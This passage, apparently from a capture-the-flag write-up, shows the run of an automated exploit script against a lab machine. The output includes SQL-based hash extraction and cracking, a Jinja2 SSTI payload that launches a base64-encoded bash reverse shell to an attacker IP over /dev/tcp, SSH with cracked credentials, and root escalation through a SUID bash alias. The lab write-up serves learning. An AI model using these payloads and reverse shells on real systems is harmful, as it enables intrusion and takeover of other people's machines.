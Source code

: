 We also remove the SUID `bash` binary to cleanup the directory.

Finally, if we run the exploit, we get access as `root`. We need to provide the path to the wordlist, our attacker IP address and port we want to listen on:

```console
$ python3 autopwn.py $WORDLISTS/rockyou.txt 10.10.17.44 4444
[*] Found database: main
[*] Found tables: blog,blog_comments,user. Using: user
[*] Found columns: email,id,name,password. Using: name,password
[+] Found hashed password for "admin": 2b22337f218b2d82dfc3b6f77e7cb8ec
[+] Cracking hash: superadministrator
[*] Got CSRF token: IjJmM2FhN2M5NmQyNzMxMDYwYWUxNGRhODE2YThmNzkxYzY1YTdiZGQi.Yhdd1A.EFHJgaw43_YSRoK4TcJcKW0V098
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.11.130 on port 58366
[*] Using reverse shell: bash  -i >& /dev/tcp/10.10.17.44/4444 0>&1
[*] Using SSTI payload: {{cycler.__init__.__globals__.os.popen("echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTcuNDQvNDQ0NCAwPiYx | base64 -d | bash").read()}}
[*] Found user: augustus
[*] Connected to container at: 172.19.0.2
[*] SSH to 172.19.0.1 using credentials "augustus:superadministrator"
[+] user.txt: b26a4127cbfb7a1bcbf8e59b1e864a77
[+] root.txt: c682307c4267caea83431507bad0819c
[*] Set: alias bash="/home/augustus/bash -p"
[*] Using reverse shell: bash  -i >& /dev/tcp/10.10.17.44/4445 0>&1
[+] Trying to bind to :: on port 4445: Done
[+] Waiting for connections on :::4445: Got connection from ::ffff:10.10.11.130 on port 45680
[*] Switching to interactive mode
bash-5.1#
```

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to global variables and the imported libraries.
